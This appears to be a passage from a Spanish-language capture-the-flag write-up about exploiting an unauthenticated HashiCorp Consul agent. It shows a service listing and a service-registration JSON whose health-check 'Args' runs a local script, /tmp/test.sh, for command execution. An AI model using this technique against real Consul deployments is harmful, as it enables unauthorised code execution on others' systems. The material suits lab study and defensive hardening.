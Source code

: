 ```bash
< X-Consul-Index: 13
< X-Consul-Knownleader: true
< X-Consul-Lastcontact: 0
< X-Consul-Query-Backend: blocking-query
< Date: Wed, 21 May 2025 23:01:11 GMT
< Content-Length: 71
< 
* Connection #0 to host 127.0.0.1 left intact
{"Heal React APP":[],"PostgreSQL":[],"Ruby API service":[],"consul":[]}
```

Es una lista de los servicios que están configurados en el consul. Además, el poder hacer una petición a la lista de servicios nos dice que probablemente no necesitaremos de autenticación para usar el resto de endpoints (también hay que mirar el header `X-Consul-Default-Acl-Policy`).

Buscando por endpoints que nos permitan hacer cositas, encontramos uno que nos permite registrar un servicio en un agente:

> PUT `/agent/service/register`
>
> This endpoint adds a new service, with optional health checks, to the local agent.
>
> The agent is responsible for managing the status of its local services, and for sending updates about its local services to the servers to keep the global catalog in sync.

En el objeto del servicio, podemos ver que hay un sub-árbol llamado `Check`, que nos permite especificar un comando que se ejecutará para comprobar que el servicio sigue con vida. Podemos copiarnos el propio ejemplo que da Hashicorp y cambiarlo por algo malicioso:

```json
{
  "ID": "redis1",
  "Name": "redis",
  "Tags": ["primary", "v1"],
  "Address": "127.0.0.1",
  "Port": 8000,
  "Meta": {
    "redis_version": "4.0"
  },
  "EnableTagOverride": false,
  "Check": {
    "DeregisterCriticalServiceAfter": "1m",
    "Args": ["/tmp/test.sh"],
    "Interval": "10s",
    "Timeout": "5s"
  },
  "Weights": {
    "Passing": 10,
    "Warning": 1
  }
}
```
{: file="redis.json" }
